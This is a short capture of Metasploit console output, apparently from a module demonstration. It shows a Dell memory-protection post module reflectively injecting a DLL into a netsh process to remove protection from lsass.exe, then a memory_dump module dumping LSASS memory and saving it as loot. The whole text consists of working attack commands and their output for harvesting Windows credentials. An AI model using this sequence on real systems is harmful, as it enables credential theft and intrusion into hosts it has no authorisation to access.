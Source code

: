 ```
[*] Set PID option 664 for lsass.exe
[*] Launching netsh to host the DLL...
[+] Process 3008 launched.
[*] Reflectively injecting the DLL into 3008...
[+] Exploit finished
[*] Post module execution completed
msf6 post(windows/manage/dell_memory_protect) > use post/windows/gather/memory_dump
msf6 post(windows/gather/memory_dump) > run

[*] Running module against WIN-7ESIGFVFQEG
[*] Dumping memory for lsass.exe
[*] Downloading minidump (4.70 MiB)
[+] Memory dump stored at /home/albinolobster/.msf4/loot/20211218041511_default_172.16.144.14_windows.process._536152.bin
[*] Deleting minidump from disk
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > 
```
